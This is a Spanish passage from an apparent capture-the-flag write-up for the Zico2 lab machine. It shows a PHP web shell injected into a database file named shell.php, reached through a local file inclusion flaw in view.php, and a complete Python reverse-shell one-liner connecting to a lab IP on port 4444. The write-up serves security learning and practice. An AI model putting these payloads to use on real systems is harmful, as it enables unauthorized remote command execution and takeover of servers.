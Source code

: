 basicamente el exploit nos dice que si creamos una base de datos con extension **.php** e introducimos una tabla colocando codigo php en el campo text field este código se interpretará en el navegador abusando de la vulnerabilidad LFI apuntando al archivo de la base de datos creada.

Creando base de datos `shell.php`

![create](../assets/imgs/zico2/create.png)

Creando tabla

![test1](../assets/imgs/zico2/test1.png)


Inyectando código php `'<? system($_REQUEST["cmd"]);?>`

![php](../assets/imgs/zico2/php.png)

Obteniendo ejecución remota de comandos

![rce](../assets/imgs/zico2/rce.png)

----

### Reverse shell www-data

Url: `192.168.0.105/view.php?page=../../../../../../usr/databases/shell.php&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.107",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
